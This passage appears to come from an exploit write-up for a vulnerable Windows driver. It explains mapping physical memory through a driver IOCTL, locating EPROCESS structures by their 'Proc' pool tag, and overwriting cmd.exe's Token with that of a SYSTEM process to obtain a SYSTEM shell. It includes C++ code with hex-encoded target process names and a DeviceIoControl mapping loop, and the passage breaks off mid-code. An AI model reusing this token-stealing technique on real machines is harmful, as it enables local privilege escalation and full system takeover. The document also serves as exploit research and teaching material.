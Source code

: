 

The next function takes the returned `proc_data` struct and **re-maps** `0x1000` bytes of physical memory starting at the physical memory address of the "Proc" tag (-`0x4`) but from the beginning of that page. The largest header length I found being `0x90`, and the largest offset of interest being `0x450`, we definitely don't need to map this much from this address but I found that mapping anything less would sporadically lead to crashes as it wouldn't be perfectly page-aligned. 

The function knows the "Proc" tag location, the header size, and the offsets for valuable `EPROCESS` members and goes looking for any likely to be `SYSTEM` process as defined in a global vector. 

```cpp
vector<INT64> SYSTEM_procs = {
    0x78652e7373727363,         // csrss.exe
    0x78652e737361736c,         // lsass.exe
    0x6578652e73736d73,         // smss.exe
    0x7365636976726573,         // services.exe
    0x6b6f72426d726753,         // SgrmBroker.exe
    0x2e76736c6f6f7073,         // spoolsv.exe
    0x6e6f676f6c6e6977,         // winlogon.exe
    0x2e74696e696e6977,         // wininit.exe
    0x6578652e736d6c77,         // wlms.exe
};
```



If it finds one of these processes and our `cmd.exe` process it will overwrite the `cmd.exe` `Token` with the `Token` value of a privileged process giving us an `nt authority\system` shell. 

```cpp
INT64 SYSTEM_token = 0;
    INT64 cmd_token_addr = 0;
    bool SYSTEM_found = false;

    LPVOID output_buff = VirtualAlloc(
        NULL,
        0x8,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    for (int i = 0; i < proc_data.proc_address.size(); i++)
    {
        // We need to map 0x1000 bytes from our "Proc" tag so that we can parse
        // out all the EPROCESS members we're interested in. The deepest member
        // is ImageFileName at offset 0x450 from the end of the header. Header
        // sizes varied from 0x20 to 0x90 in my testing. start_address will be
        // the address of the beginning of each 0x1000 aligned address closest
        // to the "Proc" tag we found.
        DWORDLONG num_of_bytes = 0x1000;
        DWORDLONG padding = 0x4141414141414141;
        INT64 start_address = proc_data.proc_address[i];

        INPUT_BUFFER input_buff = { start_address, num_of_bytes, padding };

        DWORD bytes_returned = 0;

        if (DeviceIoControl(
            device_handle,
            IOCTL,
            &input_buff,
            sizeof(input_buff),
            output_buff,
            sizeof(output_buff),
            &bytes_returned,
            NULL))
        {
            // Pointer to the beginning of our process space with the mapped
```